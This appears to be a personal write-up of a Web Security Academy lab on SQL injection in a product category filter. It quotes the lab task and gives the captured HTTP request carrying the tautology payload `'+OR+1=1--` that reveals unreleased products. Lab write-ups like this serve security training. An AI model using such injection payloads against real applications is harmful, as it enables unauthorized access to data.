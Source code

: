 This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.


![[Pasted image 20250514165820.png]]
```http
GET /filter?category='+OR+1=1-- HTTP/2
Host: 0aa9001103b5328280ef440d0060001b.web-security-academy.net
Cookie: session=mWIkfZSJMuK9TMRr1JGKw2pVC0GKzrLA
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa9001103b5328280ef440d0060001b.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

![[Pasted image 20250514165852.png]]